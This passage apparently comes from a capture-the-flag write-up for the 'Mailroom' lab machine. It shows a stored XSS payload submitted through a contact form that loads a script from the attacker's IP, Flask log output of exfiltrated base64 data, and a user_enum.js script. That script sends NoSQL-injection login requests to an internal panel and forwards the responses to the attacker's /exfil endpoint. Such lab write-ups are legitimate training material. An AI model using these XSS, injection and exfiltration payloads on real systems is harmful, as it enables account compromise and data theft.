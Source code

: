 Since this script is much bigger than the previous one, using `src` to upload the script via XSS, as it's easier to replicate the request.

```bash
> http -pB POST mailroom.htb/contact.php \
email=abraxas@mailroom.htb \
title=Test \
message='<script src="http://10.10.14.35/nosqli.js"></script>' \
-f
```

Using the same Flask app as before, the decoded text indicates that the request was successful and that a 2FA token has been sent to an inbox.

```bash
2023-07-17 23:03:04,872 - INFO - 10.10.11.209 - - [17/Jul/2023 23:03:04] "GET /nosqli.js HTTP/1.1" 200 -
{"success":false,"message":"Invalid input detected"}{"success":true,"message":"Check your inbox for an email with your 2FA token"}
2023-07-17 23:03:05,039 - INFO - 10.10.11.209 - - [17/Jul/2023 23:03:05] "GET /exfil?data=eyJzdWNjZXNzIjpmYWxzZSwibWVzc2FnZSI6IkludmFsaWQgaW5wdXQgZGV0ZWN0ZWQifXsic3VjY2VzcyI6dHJ1ZSwibWVzc2FnZSI6IkNoZWNrIHlvdXIgaW5ib3ggZm9yIGFuIGVtYWlsIHdpdGggeW91ciAyRkEgdG9rZW4ifQ== HTTP/1.1" 200 -
```

There are actually two JSON responses here, one of which is invalid and the next is successful because the invalid response lacks an exit statement, allowing the remainder code to execute. Testing the three usernames found on the Gitea sitemap. Since the login page needs an email, appending `@mailroom.htb` to the usernames.

_user_enum.js_

```js
// var formData = "email[$eq]=administrator@mailroom.htb&password[$exists]=true";
var formData = "email[$eq]=tristan@mailroom.htb&password[$exists]=true";
// var formData = "email[$eq]=matthew@mailroom.htb&password[$exists]=true";

fetch("http://staff-review-panel.mailroom.htb/auth.php", {
    method: "POST",
    body: formData,
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
    },
})
    .then((response) => {
        return response.text();
    })
    .then((text) => {
        console.log(text);
        return fetch(
            `http://10.10.14.35/exfil?data=${btoa(
                unescape(encodeURIComponent(text))
            )}`
        );
    })
    .catch((error) => {
        console.error("Error:", error);
    });
```
